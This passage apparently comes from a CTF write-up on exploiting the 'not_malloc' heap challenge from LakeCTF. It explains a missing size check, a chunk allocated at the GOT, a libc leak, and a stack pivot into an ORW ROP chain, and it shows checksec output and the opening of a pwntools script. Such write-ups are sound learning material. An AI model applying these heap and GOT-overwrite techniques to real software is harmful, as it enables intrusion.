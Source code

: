 We can allocate GOT section by overwriting `next`, but there is the restriction. `create` function forces us to write any string.

But, it can be bypassed for entering a huge number like negative value. `size` is never validated at `create`.

Using it, we can just allocate a chunk at GOT section and leak libc address.

```shell
$ checksec libnotmalloc.so
[*] '/home/brwook/ctf/40_LakeCTF/not_malloc/libnotmalloc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The library has a weak mitigation (Partial RELRO) and it means that we can overwrite GOT of this.

```c
// free chunk
void not_free(char* chunk){
  size_t size = get_metadata(chunk)->size;
  if(!size || (size % UNIT_SIZE)) {
    puts("corrupted chunk size");
    exit(1);
  }
  if(size >= QUICK_BIN_MAX) {
    link_(chunk,&misc_bin);
  } else {
    link_(chunk,&(quick_bins[get_metadata(chunk)->size/UNIT_SIZE-1]));
  }
}
```

After knowing it, I thought a lot of vectors and overwrited `link_@got.plt` with the `mov rsp, rdx` gadget.

![2.png](2.png)
*rdx register has address that we can overwrite*

We can overwrite the GOT section through the technic similar to fastbin dup. And it means we can write ROP payload and execute it.

As we've seen before, the allowed syscalls are mmap and ORW, and we can get the flag by using these.

```py
from pwn import *
choice = lambda x:p.sendlineafter(b"> ", str(x).encode())
def create(idx, size, content=False):
    choice(1)
    choice(idx)
    choice(size)
    if content:
        p.sendlineafter(b"> ", content)

def show(idx):
    choice(2)
    choice(idx)

def free(idx):
    choice(3)
    choice(idx)

context(arch='amd64')
p = process('./chal', aslr=1)
```